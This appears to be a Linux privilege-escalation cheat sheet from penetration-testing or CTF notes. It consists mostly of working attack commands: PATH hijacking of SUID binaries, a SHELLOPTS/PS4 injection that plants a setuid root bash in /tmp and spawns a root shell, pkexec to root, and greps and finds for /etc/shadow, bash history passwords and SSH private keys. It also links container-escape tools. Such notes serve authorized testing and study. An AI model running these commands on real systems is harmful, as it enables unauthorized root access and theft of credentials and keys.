     strings [suid binary] 
    strace -v -f -e execve [suid binary] 2>&1 | grep exec 
    ltrace [suid binary]  
    
compile custom executable with name of file suid binary is calling
set PATH variable to current directory and run suid binary  

    PATH=.:$PATH /usr/local/bin/suid-env
### SUID Binary Function Replace  
    strings /usr/local/bin/suid-env2  
    
    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p' 
    
### Misc SUID binaries 
use binary to exec /bin/bash -p 

    pkexec --user root /bin/sh  
## Services Running as Root / Services Only Running Locally
    ps -aux | grep root 
    netstat -etulp 
    mysql running as root [exploit](https://www.exploit-db.com/exploits/1518)  
    ftp, telnet - tcpdump to sniff creds??
## Passwords / config files 
    /etc/passwd, /etc/shadow, /etc/sudoers  read or write?? 
    cat ~/.ssh  
    cat ~/.bash_history | grep -i passw  
    
search for strings (search for username if scripts aren't picking up creds):

    grep -rwl "password" /var     

### SSH Keys   
    find / -name authorized_keys 2> /dev/null
    find / -name id_rsa 2> /dev/null   

## Capabilities 
check gtfobins, [capabilities reference](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities) 

    getcap -r / 2>/dev/null  

## Container Escapes 
docker, lxd, 
[Docker and Container escapes - DEEPCE](https://github.com/stealthcopter/deepce)   
[Docker Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html)    
[Docker for pen testers](https://blog.ropnop.com/docker-for-pentesters/)   


